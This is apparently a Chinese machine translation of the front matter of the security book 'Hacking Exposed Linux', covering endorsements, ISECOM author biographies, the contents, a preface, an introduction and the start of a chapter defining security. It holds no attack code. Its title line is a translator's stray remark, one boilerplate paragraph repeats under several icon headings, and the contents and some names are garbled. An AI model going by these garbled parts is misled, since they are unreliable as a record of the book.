# 由于您提供的是文件名而非标题，无法直接进行翻译。请提供具体的英文标题。


> “引导读者通过一种实用的现实世界方法，帮助理解特定风险，并确定适当的缓解措施。”
>
> -Jake Kourns，CISP, CISM, CISA，开放安全基金会（Open Security Foundation）主席；开源漏洞数据库（OSVDB）项目负责人


作为《黑客攻防》（Hacking Exposed）系列的一个宝贵扩展；作者们出色地将构建《开源安全测试方法论手册》（OSSTMM）的团队所积累的海量安全测试知识库，融入到易于理解、简洁的读物中，介绍了 Linux 系统是如何被黑客攻击的。

Steven Splaine

《Web 测试手册》作者，行业公认的 Web 安全测试专家

由于 Pete 是开源安全方法论的先驱、ISECOM 的负责人以及 OPSA 认证的制定者，没有人比他更有资格撰写这本书了。

Matthew Conover

首席软件工程师

赛科瑞研究实验室核心研究小组

你会感觉自己正和作者们坐在同一个房间里，听他们详细讲解坏人攻击你网络采取的步骤，以及你保护它需要采取的步骤。或者正如作者所说：“将资产与威胁分离。”干得好，伙伴们！

Michael T. Simpson, CISSP

高级分析师

太平洋空军（PACAF）信息保障部

这是一份优秀的安全信息资源，显然是由具有实战经验的人编写的。信息的详尽程度令人印象——将这些信息整合在一个地方非常有用。

Jack Louis

安全研究员

作为项目负责人，我想将这本书献给所有通过 ISECOM 提供帮助和贡献的志愿者，他们帮助理解安全，让世界其他地方能够找到更多的宁静。正是他们这样无私的黑客让当黑客变成了一件酷事。

我还需要说，如果没有我难以难以支持的妻子 Marta，这一切工作将难以完成。甚至还有我的三个孩子 Ayla、Jace 和 Aidan，他们都能把 ISECOM 列在自己的首选清单上。

> Pete

### 关于作者

这本书是根据 ISECOM（安全与开源方法论学院）项目编写的。ISECOM 是一个 2001 年 1 月成立的非营利安全研究和认证组织，其使命是理解安全。他们发布供公共和商业使用的安全标准和方法论。

这本书由多位作者、评审人员和编辑（此处未列出全部）合作创作了最优秀的 Linux 手籍。由于没有人能精通 Linux 的所有内容，社区编写了这本关于如何保护它的。

以下人员贡献巨大，应当予以认可。

## 关于项目负责人

### Pete Herzog


作为经理，Pete 是 ISECOM 的联合创始人，OSSTM 的创建者。在工作中，Pete 专注于科学的、方法论的测试。他目前正在开发的项目包括家庭安全、青少年黑客课程、源代码分析、儿童批判性思维、电磁频谱无线认证和培训、立法者安全解决方案指南、苏斯风格儿童诗、安全教材以及国家改革安全解决方案。

除了管理 ISECOM 项目外，Pete 在巴塞罗那的拉萨大学的安全硕士课程教学，并支持全球合作伙伴和培训师网络。他在锡拉华大学获得学士学位。目前只带着家人在欧洲和北美旅行。

## 关于项目经理

### Marta Barceló


Marta Barceló 是运营总监、ISECOM 的联合创始人，负责 ISECOM 的业务运营。2003 年初，她设计了 Hacker Highschool 项目的流程，开发并设计了网站以及个人和多语言方法。同年些时候，她开发了 ISESTOR 会议的财务和 IT 运营。2006 年，Marta 被加入欧盟赞助的开放信任联盟，负责管理 ISECOM 对该项目的参与，包括财务和操作程序。2007 年，她开始了目前 ISECOM 正在进行的广告活动，提供了所有的创意和技术技能以及指导。

Marta 负责所有 ISECOM 项目的媒体呈现工作，并为网站提供技术服务器管理。她就读于德国的曼海姆应用科学大学，并获得计算机科学硕士学位。

除了运营 ISECOM 之外，Marta 对艺术有着浓厚的兴趣，尤其是摄影和平面设计，她的第一个学位是来自巴塞罗纳里塞乌音乐学院（Conservatori del Liceu）的音乐学位。

### Rick Tucker

Rick Tucker 曾在包括 SIPES 和 Hacker Highschool 在内的多个项目为 ISECOM 提供技术写作、编辑和通用支持。他目前居住在俄勒冈州波特兰，在一家小型律师事务所工作，是处理各种琐碎和棘手问题的首选人员。


### 关于作者

#### Andrea Barisani

Andrea Barisani 是一位国际知名的安全研究人员。他的职业生涯始于八年前，但一切真正始于他十岁时使用的一台 Commodore-64。现在，Andrea 沉浸于大规模 IDS/防火墙部署管理、取证分析、漏洞评估、渗透测试、安全培训以及开源项目的乐趣中。他最终发现系统和安全管理是表达他偏执症式需求的唯一有效方式。

Andrea 是 oCERT（开源安全应急响应小组）活动的创始人兼项目协调员。他以安全与基础设施团队经理的身份参与 Gentoo 项目，并是《开源安全测试方法手册》（OSTMM）的成员，也是 ISECOM 核心团队成员。在社区之外，他是 Inverse Path, Ltd. 的联合创始人兼首席安全工程师。他曾在 PacSec、CanSecWest、BlackHat 和 DefCon 等多个会议担任演讲者和培训师。

#### Thomas Bader

Thomas Bader 在 Dreamlab Technologies, Ltd. 担任培训师和解决方案架构师。自2007年初夏以来，他一直负责整个瑞士的 ISECOM 课程。作为 ISECOM 团队成员，他参与了 OPSE 认证课程、ISECOM 测试网络以及 OSTMM 的开发。

从 1997 年第一次接触开源软件开始，他就专攻网络和安全技术。在接后的几年里，他在该领域工作，并以顾问和技术人员的身份在不同公司积累了丰富的经验。自2001年起，Thomas 一直担任 LPI 培训课程开发者和培训师。自2006年起，他在 Dreamlab Technologies, Ltd. 工作，该公司是 ISECOM 在欧洲德语和法语国家的官方代表。


#### Simon Biles

Simon Biles 是英国信息安全咨询公司 Thinking Security 的总监兼首席顾问。他是 O'Reilly 出版物《Snort Cookbook》的作者，还为 ISECOM、微软和 SysAdmin 杂志编写过其他材料。他目前正在 Shriven 的国防学院攻读取证计算硕士学位。他拥有 CISP、OPSA 证书，是 ISO17799 首席审核员，还是英国计算机学会的特许成员。他已婚，有几个孩子和几只爬爬行动动物。他的妻子虽然不是世界上最美丽的女性，但当他说出类似“我同意了……<此处插入耗时间的地方>”的话时，她非常有耐心。在这种情况发生的空闲时间，他喜欢摆弄路野虎（Land Rovers），并拥有一辆半可靠的二代揽路虎（Range Rover）。


#### Colby Clark

Colby Clark 是 Guidance Software 的网络安全经理，负责监督其信息安全计划的日常开发、实施和管理。他拥有多年安全相关经验，并在财富500 强公司、律师事务所、金融机构、教育机构、电信公司以及其他公共和私营公司中，在监管合规性同意和审计（Sard Oley 和 FTC 同意令）、业务连续性咨询、灾难恢复、事件响应和计算机取证调查方面拥有卓越的记录。Colby 获得了南加州大学的工商管理高级学位，拥有 EnCE、CISP、OPSA 和 CISA 证书，并在计算机与企业调查会议（CEIC）上教授过高级取证和事件响应技术。他还是开源安全测试方法（OSSTMM）的开发者，自 2003 年起加入 ISECOM。


#### Raoul Chiesa

Raoul “Nobody” Chiesa 拥有 22 年信息安全经验和 11 年专业知识。他是 Mediaservice.net Srl 的创始人和主席，这是一家位于意大利的厂商中立的安全咨询公司。Raoul 担任 OWASP 意大利分会、电信安全任务组（TSTNet）和 ISO 国际用户小组的董事成员。自2007年以来，他一直在联合国国际犯罪与司法研究所（UNICRI）担任联合国的网络犯罪问题顾问。

他撰写了《黑客画像》（Hacker Profile），该书将于2008年下由 Y. Taylor & Francis 在美国出版。Raoul 的公司是全球首个 ISECOM 合作伙伴，于2003年启动了 OPST 和 OPSA 课程。在 ISECOM，他担任……。

#### Pablo Endres

Pablo Endres 是一位安全工程师、顾问和解决方案架构师，在多个电话运营商、VoIP 提供商和大学领域拥有深厚的背景。他从 80 年代后期开始接触计算机，并在委内瑞拉的西门立华大学获得了计算机工程学位。他已经在 Linux、Unix 以及其他领域工作、研究了十年。他编写了关于计算机取证调查和方法的书籍，这是在意大利出版的此类著作。Pablo 的公司是全球首个 ISECOM 合作伙伴。在书中，他特别感谢 Pete 提供的机会，并特别感谢他的妻子和父母的支持。他是 ISECOM 通信总监。


#### Richard Feist

Richard 自 89 年担任程序员以来一直在计算机行业工作，并担任过多种角色。他对比业务和 IT 都有良好的见解，最近创立了自己的安全咨询公司 Blue Secure。他拥有多种证书（CISSP、Prince2 实践师、OPST/OPSA、MCSE 等），不断保持与时同步。


#### Andrea Ghirardini

Andrea “Pila” Ghirardini 在计算机取证分析方面拥有七多年的经验。他领导的 @PSS Labs (http://atpss.net) 已协助意大利和瑞士警方特种部队处理了300多个涉及毒品交易、欺诈、税务欺诈、恐怖主义、武器走私、绑架等案件。

他的实验室是意大利最老的，公司团队在构建机器和存储系统方面背景强大，可以使用开源和商业工具处理和检查数字证据。2007年，Andrea 写了意大利第一本关于计算机取证调查和方法的书（Apoge 出版）。在书中，他还分析了与此类犯罪相关的意大利法律。他是意大利第三个获得 CISSP 认证的人。Julian “HammerJammer” Ho

Julian “HammerJammer” Ho 是 ThinkSecure Pte, Ltd. (http://securitystarts.org/) 的联合创始人，这是一家位于亚洲的实用 IT 认证/培训和专业 IT 安全服务机构，也是 ISECOM 认证的 OPST 培训师。

Julian 负责樟宜国际机场1、2 号楼以及世博会议中心 StarHub 无线热点的设计、实施和维护。他是2004年新加坡举办的 BlackOps:HackAttack 安全赛事的半决赛成员之一，2005年亚洲首届公开黑客赛（AIRRAD）以及2008年泰国首届公开黑客赛（AIRRAID2）的参与者。他还参与了2006年 WCCD 漏洞的研究和发布。

### Marco Ivaldi

Marco Ivaldi (raptor@mediaservice.net) 是一位计算机安全研究员、顾问、软件人员以及 Unix 系统管理员。他特别感兴趣的领域是网络、电话和密码学。他是 ISECOM 核心团队成员，积极参与 OSSTM 的开发工作。他持有 OPST 认证，目前在意大利领先的信息安全公司 Mediaservice.net 担任红队协调员（Red Coordinator）。他的日常工作包括高级渗透测试、ISMS 部署与审计、漏洞研究以及漏洞利用开发。他还是 Linux&C 的创始人兼编辑委员会成员，这是意大利第一本关于 Linux 和开源的杂志。他的个人主页和实验场地址是 http://www.0deadbeef.info。

Marco 感谢 TSTF 的 VoIP 专家 Emmanuel Gadaix 和 teggrug 在其书籍撰写期间提供的宝贵且持续的支持。他将这本书的成果献给 z*。

### Dru Ivalve

Dru Ivalve 是一位网络和系统管理员、IT 讲师、课程开发人员和作家。她在管理和教学方面拥有十多年的经验，涵盖 Netware、Microsoft、Cisco、Checkpoint、SOC、Solaris、Linux 和 BSD 系统。她是《BSD Hacks》和《The Best of FreeBSD Basics》的作者。她目前是《Open Source Business Resource》的主编辑，这是一份涵盖开源领域的免费月度刊物。她是 BSD Certification Group, Inc. 的创始人兼现任主席，该组织是一个旨在创建 BSD 系统管理员标准的非营利组织。在 ISECOM，她维护着开放协议数据库（Open Protocol Database）。她的书可以在 http://blogs.com/unix/bsd 找到。

### Stephane Lo Presti

Stephane 是一位研究科学家，过去几年来他探索了计算机科学中信任的各个方面。他目前在伦敦城市大学研究面向服务的的架构和信任。他过去的工作经历包括伦敦大学皇家霍利惠德学院的欧洲项目 Open Trust Computing (http://www.opentc.net)，以及英国南安普顿大学的受信软件代理与服务 (T-SAS) 项目。他喜欢将他的需求分析和形式化规范计算技能应用于现代系统和重要属性（如信任）。2002 年，他在法国格勒诺堡理工学院获得计算科学博士学位，并于 1998 年毕业于法国格勒诺堡的 ENSIMAG 计算与应用数学高等学院，成为计算机工程师。

### Christopher Low

Christopher Low 是 ThinkSECURE Pte Ltd. (http://securitystartups.org) 的联合创始人，这是一家位于亚洲的 IT 安全培训、认证和专业 IT 服务机构。Christopher 拥有十多年的 IT 安全经验，并具有丰富的咨询和渗透测试经验。Christopher 还是一个出色的培训师，作为 ISECOM 认证的 OPST 讲师，根据他在 IT 安全领域的经验开发了多种实实践的安全认证课程。他还共同开发了在新加坡举行的 BlackOPS HackAttack 2004 安全竞赛、2005 年的 AIRRAID（亚洲首个纯无线黑客赛）以及 AIRRAID2（泰国首个公开黑客赛）。

Christopher 还非常积极参与安全研究；他喜欢编程，并创建了 Propemaper 和 MoocherHunter 工具，这两者都可以在我们正在审计的 OSWA-Assistant 工具包中找到。

### Ty Miller

Ty Miller 是澳大利亚悉尼 Pure Hacking 的首席技术官。Ty 曾全球大型银行、政府、电信和保险机构执行过无数系统的渗透测试，并为澳大利亚教育和航空行业的多家机构设计并管理了大型安全架构。

Ty 在拉斯维加斯的 Blackhat USA 2008 上展示了关于 DNS 隧道 Shellcode 的开发，并参与了 CHAOS Linux 发行版的开发，该版本是最紧凑、安全的 OpenHelix 平台。他是认证的 ISECOM OPST 和 OPSA 讲师，并开源安全测试方法论做出贡献。Ty 还为各种组织和会议举办过 Web 应用程序安全课程和渗透测试教程。

Ty 拥有澳大利亚麦大学信息通信系统的学士学位。他的兴趣包括 Web 应用程序渗透测试和 shellcode 开发。

### Armand Puccetti

Armand Puccetti 是 CEA-LIST（法国原子能局的一个部门，http://）的研究工程师和项目经理，他在软件安全实验室工作。他参与了属于 MEDEA+, EUCLID, ESSI 和 FP6 程序的多个欧洲研究项目。他的研究兴趣包括软件和硬件描述语言的形式方法、编程语言语义、定理和基于事件的模拟技术。在 2000 年加入 CEA 之前，他在私有软件公司 C-S (Communications & Systems, http://www.c-s.fr/) 担任项目经理。在 C-S，他参与了许多软件开发和应用研究项目，从 CASE 工具和编译器开发到军事模拟工具和方法 (http://escadore.cad.etc.fr/ESCADRE) 以及咨询。

他毕业于 INPL (http://www.inpl-nancy.fr)，并于 1987 年获得 Ada 编程语言语义与公理化证明博士学位。

## 关于贡献作者

### Görkem Çetin

Görkem Çetin 是一位拥有 15 年经验的知名 Linux 和开源专业人士。作为博士候选人，他目前的博士研究重点是自由/开源软件的人机交互问题。Görkem 编写了四本关于 Linux 和网络的书籍，并为许多技术和行业杂志撰写了大量文章。他在土耳其国家密码与技术协会（TUBITAK/UEKAE）担任项目经理。

### Volkan Erol


Volkan Erol 是土耳其国家电子与密码研究院（TUBITAK-NRIEC）的研究员。在获得加拉塔萨大学技术学院计算机工程学士学位后，他在伊斯坦布尔理工大学继续攻读计算机科学硕士。他自 2005 年起在 Turkcell 项目担任全职研究员。他的研究领域是受信计算、密码学、软件开发和图像处理。

# Chris Griffin

Chris Griffin 拥有九年的信息安全经验。Chris 获得了 OPST、OPSA、CISSP 和 CNDA 认证，是 OSSTMM 的活跃贡献者。他想感谢 Pete 提供的机会，并感谢他的妻子和孩子的耐心。

# Fredesinda Mérida

Fredesinda Inés Mérida 是 Cybex 的战略开发经理。In 毕业于巴塞罗那大学（1994-1998），并拥有马德里康普贡斯大学信息科学通信博士学位。In 曾多次在计算机取证和电子证据会议上代表 Cybex。她在打击计算机犯罪方面拥有丰富经验。在 Cybex，她为计算机取证专家提供法律协助。

# 关于编辑和评审人员

# Chuck Truett

Chuck Truett 是一位作家、编辑、SAS 程序员和数据分析师。除了在 ISECOM 工作外，他还为从儿童到角色游戏的读者写过虚构和非虚构作品。

# Adrien de Beaupré

Adrien de Beaupré 拥有 GSEC、CISP、OPSA 和 OPST 认证。Adrien 在 isc.sans.org 非常活跃。他是一位 ISECOM OSSTMM 认证讲师。他的专业领域包括漏洞评估、渗透测试、事件响应和数字取证。

# Mike Hawkins

Michael Hawkins 拥有 CISP，在计算机行业拥有十多年经验，大部分时间在世界500强企业工作。他目前是响器公司 Klipsch 的网络与安全经理。担任全职安全专业人员已有五年。

# Matías Bevilacqua Trabado

Matías Bevilacqua Trabado 毕业于巴塞罗那大学计算机工程，目前担任 IT 经理。凭借安全背景，Matías 专注于计算机取证和电子证据的效力。他设计并运营了西班牙第一个私有取证实验室，目前在 Cyex 领导研发工作。

# 第一部分 安全与控制

## 1 应用安全

## 2 应用交互式控制

## 3 应用流程控制

# 第二部分 破解系统

## 4 本地访问控制

## 5 权限提升

## 5 数据网络安全

## 6 非传统数据攻击

## 7 语音 IP (VoIP)

## 8 无线网络

- 关于蓝牙

## 10 RFID—射频识别

# xviii 破解 Linux 暴露：Linux 安全机密与解决方案

- RFID 攻击
- OpenPICC
- Magellan 技术
- RFIDIoT
- OpenBeacon
- Linux RFID Kit
- 案例研究
- 其他“侧信道”攻击
- 案例研究

# 目录

- 可信计算应用的通用支持
- 可信计算示例
- 可信 GRUB (TrustedGrub)
- Turaya.VPN 与 Turaya.Crypt
- TCG 工业应用
- 总结

# 第三部分 攻击用户

- 13 Web 应用攻击
- 案例研究
- 侦察
- 中人攻击
- Web 基础架构攻击
- 14 邮件服务
- 案例研究
- SMTP 基础
- 15 域名服务

# 攻防破解 Linux (Hacking Exposed Linux)：Linux 安全秘密与解决方案

- Bind 加固
- 总结

# 第四部分 维护与管理

## 16 可靠性：C 代码的静态分析

- 案例研究
- 半形式方法
- 静态分析
- 使用 Hoare 逻辑分析 C 代码
- 验证条件
- 方法论
- 基于模型检查的工具
- 其他参考文献
- 总结

## 17 Linux 内核中的安全调优

- CryptoAPI
- 增强的无线栈
- 额外的内核资源
- 在线文档

# 第五部分 附录

## A 管理与维护

- daemons

## B Linux 取证与数据恢复

## BSD

## FreeBSD

- portaudit(1)

## NetBSD

- 索引

# 前言

我对安全的痴迷始于很小。青少年时期，我很幸运能有一位在顶尖大学攻读博士位的父亲。当他在研究时，我可以接触那里的各种系统（除了其他的，还有 Vax 11/780）。在实验室的这些年里，我拥有一台 Commodore 64 个人电脑、一个 300-bps 调制解调器，并连接到一个魔法般的 UUCP 联网的世界。我成功完成的第一个黑客行为之一是编写一个登录脚本，在模拟登录失败的同时，将受害者输入的用户名和密码写入文件。这个黑客行为允许我在没有我父亲监督的情况下登录系统。那次经历以及随后的其他经历，教会了我许多关于无效安全控制的知识。这成为了我探索更多知识的催化剂。

1992 年，我开始在一家工程公司担任系统管理员。我控制着大约 30 台工作站、一个带有 UUCP 互联网馈送的拨号 BBS、几台 SCO Unix 服务器和一台 Novel 服务器。不久后，我被赋予了让公司共享访问互联网的任务。正那时我学习了 Linux 和 IP 伪装（IP Masquerading）的共享功能。在接下来的几年里，Linux 成了我的核心关注，我将其用于各种项目，包括替换 Novel 和 SCO 服务器。

在这一时期，大多数 IT 行业非常乐意保持系统正常运行。任何安全控制都被认为是有益的，但并没有一种标准化的方法来衡量成功。这对于私营部门的安全来说是一个非常糟糕的决定，因为安全在很大程度上是一门基于经验的艺术形式。

后来，当我担任顾问工作时，我被要求制定一套信息安全测试计划。我参加过 SANS 课程，读过所有关于“黑客攻击”的书籍，拥有所有正确的工具，但仍然觉得还有不足。在互联网上寻找一种系统化的方法后，我很幸运地遇到了《开源安全测试方法手册》（OSSTMM）的早期版本之一。该项目的社区属性引起了我的共鸣；OSSTMM 让专业安全测试人员能够贡献出一份详尽、可重复、有条的测试指南。这种安全测试方法通过实践证明，远优于我们以前进行的、冠以“渗透测试”这一模糊头衔的随机戳探和试探。我不再满足于“安全是一门艺术，而非科学”的格言了。

作为 ISECOM 董事会成员，我有荣幸见证了我们所有关键项目的发展。ISECOM 共同的热情、对卓越的追求以及对理解我们涵盖的广泛议题的奉献，驱动着所有贡献者不断前行。现在，你手中拿着的是你们专门应用于 Linux 安全的劳动果实。

我希望你阅读这本书，就像团队为你们编写它一样愉快。如果你想加入 ISECOM 团队，或为我们的任何项目做出贡献，请通过 `http://www.isecom.org` 上的表格与我们联系。

Robert E. Lee 是 Outpost24 AB 的首席安全官。Outpost24 是领先的主动网络安全解决方案提供者。Outpost24 的解决方案提供全自动的网络漏洞扫描、易于解读的报告以及漏洞管理工具。Outpost24 的解决方案可以在几小时内全球任何地方部署，为客户提供安全和合规状况的即时视图。OUTSCAN 是欧洲部署最广泛的按需安全解决方案，去年为 1000 多名客户执行了扫描。

# 致谢

特别感谢 Jonathan Bokovza、Šarūnas Grigaliūnas 和 Harald Welte 在我们需要帮助时提供的及时协助。还要特别感谢 Jane Brownlow、Jennifer Housh 和 LeeAnn Pickrell。

# 引言

GNU-Linux 是黑客的终极游乐场。它是想象力的玩具，不像一盒积木或一袋粘土。无论某人是艺术家还是科学家，可能性都是无限的。你想在计算机上做或创造的任何事情都只取决于你的创造力。这就是为什么这么多人对 Linux 感兴趣。

很多人直接称 Linux 而不是全名 GNU-Linux——就像你会用昵称称朋友一样。也许这是因为通过源代码与该操作系统建立的亲密感。或者是因为作为社区一员的体验。无论如何，每个人都能从这种归因于 Linux 透明开放性的机器中受益。

尽管 Linux 不是互联网上的主导操作系统，但它非常流行，考虑到运行网络服务、电子邮件服务和名称服务的绝大多数服务器都依赖于与 Linuxget的其他开源代码。而这正是问题所在。可以被保护吗？


当你需要安全时，困难就出现了。你如何保护这种东西，它由集体设计的托管组件构建、重建和重新配置，而且不同机器之间存在差异？你总会发现没有两个完全相同的系统。那么，你该如何处理这些系统的安全性？

本版《破解 Linux 安全》（Hacking Exposed Linux）基于 ISEC 的工作，ISEC 是一个宗旨为“理解安全”的开放安全研究组织。ISEC 在全球拥有数千名成员，并在安全、防护隐私方面提供广泛的方法和框架。ISEC 使用开放协作和广泛的同行评审来获取最高质量的研究——这也是本版本的开发方式。

# 本书的结构

本书旨在具有实用性；你不会仅仅学习如何运行一两个漏洞程序，而这些漏洞在你读完相关内容时可能已经被修补了。进行所有黑客攻击所需的知识和工具都在书中；然而，我们涵盖的不是特定的漏洞，而是威胁类型。这意味着即使某个漏洞被修补了，关于该漏洞如何运作、如何绕过安全控制以及此类交互如何被滥用的知识，仍然能帮助你分析问题。通过不只针对特定威胁进行加固，你将更有能力去测试并应用涵盖潜在、未知威胁的安全措施。

在结构上，本书遵循了开源安全测试方法论（OSSTMM）中确定的五种安全交互类型：物理、电信、数据网络、人类和无线。前三章解释了安全和控制如何根据最新的 ISECOM 研究工作，并为理解如何分析安全奠定了基础。随后，本书按照 Linux 最常见用处的逻辑划分，构建了一个连续的安全知识体系——无论你对你的 Linux 系统进行什么操作。

你可以通读本书，并像海绵一样吸收所有信息。你也可以根据你对 Linux 系统哪些区域的安全关注，在章节之间跳转。也许你想尝试测试无线接入点、VoIP 或电信？只需跳转到相应章节即可。或者，如果你只是想确保你的桌面应用程序不会通过钓鱼、垃圾邮件和 rootkit（根权限包）损害你的 Linux 系统，我们在人类安全通道中涵盖了用户攻击。同样，你随时可以利用空闲时随意翻阅本书。

# 本版更新了什么？

与其他发布版本更新的书籍不同，本版本经过了完全重写，以确保完全符合 ISECOM “理解安全”的使命。所有材料都是全新的，基于最最新且最详尽的安全研究。黑客攻击和防御措施基于安全测试标准 OSSTMM，我们确保了涵盖了所有已知的 Linux 攻击，以及如何准备你的系统以抵御未知攻击。

# 改进的方法论

使用 OSSTMM 作为本书指南的益处之一是其核心拥有一套经过验证的安全测试方法论。在一种“攻击与防御”风格的书中，安全方法论确保了通过正确的测试来创建出个性化的保护。当测试目标具有定制化和随机性时（例如存在各种 Linux 系统类型和应用程序），这种方法是必要的。

拥有可靠的方法论意味着拥有了一个强大的分类系统。本书不再尝试关注单一漏洞，而是关注漏洞类。

# 引言

漏洞信息和漏洞代码可以从许多来源获取，包括商业渠道和免费渠道。将系统、应用程序或服务与漏洞相匹配是一项简单的任务。因此，加固漏洞只需要知道该漏洞存在以及它是如何运作的以便创建补丁。这通常由供应商和开发者完成。然而，防御此类所有漏洞可能并不像安装补丁那样那么简单。某些应用程序会利用系统或其他应用程序的特定版本来正常运行。保护此类类别比保护其某一个实例更务实。这也是对未知领域进行“防呆”的一种形式。

# 参考文献和延伸阅读

本书引用了 OSSTMM 3.0。你可以在 `http://www.osstm.mm` 找到 OSSTMM，并在主站 `http://www.isecom.org` 找到其他后续项目。

如需获取书中涵盖概念的帮助，ISECOM 为专业人士提供认证考试，并提供了根据 OSSTMM 对系统和企业进行认证的方法。这些考试的培训审计可以通过官方 ISECOM 培训伙伴获得；获得许可的审计师通过严格的培训和质量保证计划获得了其地位，他们是你极佳的安全参考。

# 基础构建模块：攻击与防御措施

与之前的版本一样，本版结合了熟悉的图标、格式和风险评分（Risk Ratings）易用性。对于那些不喜欢风险评分或认为它太通用或有偏见的人，请记住风险本身是带有偏见的，它使用感觉来证实假设。尽管有更好的方法来验证用于计算风险的威胁和漏洞，但在演示方面没有比风险评分表更好的方法来降低风险了。因此，请接受带有一定误差的风险评分，因为它们比确定性结果更具代表性，就像共和国的代表并不是所有被代表民的绝对镜像。

与整个《黑客攻击实战》（Hacking Exposed）系列一样，本书的构建模块是每章中讨论的攻击和防御措施。

攻击在书中被高亮显示，正如它们在整个《黑客攻击实战》系列中一贯如此一样。

# 这是一个攻击图标

高亮此攻击可以易于识别特定的渗透测试工具和方法论，并向你指引你所需要的信息，这些信息将帮助你用以说服管理层资助你的新安全计划。

每个攻击都附带有一个风险评分，评分方式与《黑客攻击实战》完全一致。

| 流行度： | 针对活动目标的使用频率，1 为最罕见，10 为广泛使用。 |

| :--- | :--- |

| 简单性： | 执行攻击所需的技能程度，10 为几乎或或不需要技能，1 为经验丰富的安全程序员。 |

| 影响： | 成功执行攻击造成的潜在损害，1 为揭露关于目标的琐碎信息，10 为毁灭性的。 |

| 风险评分： | 攻击的整体风险。 |

高亮此攻击可以易于识别特定的渗透测试工具和方法论，并向你指引你所需要的信息，这些信息将帮助你用以说服管理层资助你的新安全计划。

每个攻击都附带有一个风险评分，评分方式与《黑客攻击实战》完全一致。

# 这是一个防御措施图标

高亮此攻击可以易于识别特定的渗透测试工具和方法论，并向你指引你所需要的信息，这些信息将帮助你用以说服管理层资助你的新安全计划。

每个攻击都附带有一个风险评分，评分方式与《黑客攻击实战》完全一致。

# 这是一个攻击图标

高亮此攻击可以易于识别特定的渗透测试工具和方法论，并向你指引你所需要的信息，这些信息将帮助你用以说服管理层资助你的新安全计划。

每个攻击都附带有一个风险评分，评分方式与《黑客攻击实战》完全一致。

# 其他辅助

高亮此攻击可以易于识别特定的渗透测试工具和方法论，并向你指引你所需要的信息，这些信息将帮助你用以说服管理层资助你的新安全计划。

每个攻击都附带有一个风险评分，评分方式与《黑客攻击实战》完全一致。

# 给读者的结语

# 案例

Simon 询问应该如何进行，首席信息官指示他监控活动，并提到了他们在防病毒软件和恶意软件许可证上的花费，认为如果真的是恶意软件，下一次每日程序数据库更新就会清除感染。整个问题就会消失。

Simon 建议这可能不是恶意软件。可能是进入内部系统的黑客故意攻击，或者是 John Alexander 本身正在进行某些黑客活动。首席信息官考虑了这个想法片刻，但认为 Simon 的怀疑并不合理。毕竟，正如他向 Simon 解释的那样，公司

在安全方面花费了大量资金。西蒙（Simon）持有不同意见。他解释说，公司在某些特定的控制措施上花费了大量资金，但在安全方面几乎毫无投入。首席信息官（CIO）打发了西蒙，提醒他只是一个管理员，而不是安全专家，而且他们从专家那里购买安全解决方案是因为他们不需要自己雇佣这些专家。

西蒙能做的只能眼睁睁地看着那些带有无效意图的有效流量在网络中穿梭。几个月后，当约翰·亚历山大（John Alexander）被升往海外办事处时，那些神秘的流量突然停止了。

人们在保护任何事物时面临的最大问题，是他们在确定保护什么以及如何保护时所使用的范围过于狭窄。这可能是因为人们并不完全理解什么是安全，但更有可能是因为“安全”是一个内涵非常丰富的词汇，它可以代表许多含义。字典中的定义并没有帮助。大多数定义将其描述为“免于风险的状态”。好吧，对于那些试图提高安全感的家庭主妈妈和面包车爸爸来说，这样也可以，但它对于专业人士设计一个安全系统并没有真正的帮助。

像法律或医疗等完全成熟的职业，需要学术和技能的精进文化来获得执业许可和地位，这些职业对定义非常重视。例如，如果一个人说他抑郁了，其含义与临床精神科医生所指的抑郁是不同的。通常情况下，人们会将两者分开，当他们指的是抑郁症时，会使用“临床抑郁”一词。然而，并没有所谓的“临床安全”或甚至“专业级安全”这样的术语。

# 免于风险

安全研究需要特定的定义以确保含义能够被准确传达。《开源安全测试方法手册》（OSSTMM）的开发需要数百名研究人员和数千名评审人员共同努力，完成了一项重大工作。要克服的第一道障碍是对术语达成通用定义。“保护”（protection）一词成为了“安全”（security）的通用同义词，因为它的外部内涵较少。然而，“安全意味着免于风险”这一观点根植于项目开发者的心中，事实上也污染了这项研究。

OSSTMM 的早期版本（通过 2.X 版本）使用的是通用定义；然而，早期版本也关注风险。研究人员在开发这些早期版本时对这些定义存在分歧。安全标准没有容忍分歧的空间。我们期望安全标准是非黑即白的。它必须是正确且事实的。为了这一点，它需要避免“风险”的概念。

风险是有偏见的。人们接受风险的程度各异。此外，字典中将安全定义为“免于风险”，即使在我们自己的细胞都在反抗我们时，这也是不可能的。因此，“免于风险”并不是一个可以有效或现实地用来理解安全的标准，更不用说衡量它。研究人员意识到，风险的概念不能出现在 OSSTMM 中。

OSSTMM 研究人员确定，最简单形式的安全不是关于风险，而是关于保护。这就是为什么他们在讨论安全时提到这个词的原因。他们得出结论：安全最好被建模为“资产与威胁的分离”。无论讨论互联网欺诈、小偷小摸还是建立退休基金，这个主题都已成为通用的。在每种情况下，安全都将资产与威胁隔离开来。不意外，对任何威胁最好的防御就是避免它，要么是远离它，要么将其移除。

> 安全是资产与威胁的分离。

军事实践的安全通常意味着摧毁威胁。一个失效的威胁就不再是威胁。因此，要将威胁与资产分离，你有三个选择：

- 从物理上移除或分离资产与威胁。
- 摧毁威胁。
- 移动或摧毁资产。

在实际操作中，摧毁资产是不可取的，而摧毁威胁往往太复杂或是非法的。然而，将两者分离通常是可以实现的。

# 四大综合约束条件

来自风险管理领域的人可能在接受“安全是某种简单的分区”这一观点时会遇到困难。对他们来说，这些分区是概率和可接受风险结合产生的短暂产物。他们的论点是，将资产与威胁隔离开的纸墙比完全没有安全要好。此外，对于风险经理来说，任何墙都是一个可以被时间和偶然打破的构造物。对他们来说，这种破坏可能同样来自墙的内部。威胁也可能演变，或变得更加强大。这解释了为什么风险经理使用游戏论来处理安全问题。

风险经理的观点很有道理。因此，必须根据以下四个综合约束条件来理解应用安全：通道（channel）、矢量（vector）、索引（index）和范围（scope）。通过这四个约束条件，你可以衡量什么是安全的。安全意味着所有威胁，你不需要指示是“针对什么”的安全——如果存在一个约束，它会被自动归类为限制，而限制被定义为失败。这就是为什么一个墙可以被认证为安全，以至于它作为安全措施是价值价值。

在四个综合约束条件中，只有“范围”是逻辑性的。通道、矢量和索引是物理约束，意味着它们是“实体”。范围是需要应用安全的连续区域。例如，一个 Linux 邮件服务器的范围将包括服务器本身的安全、键盘访问、远程访问、与元素的远程交互、持续的电能供应，以及与至少一个将接收并传递电子邮件数据包的路由器的网络连接。因此，一个简单服务器的物理范围可以非常大，并覆盖很远的距离。

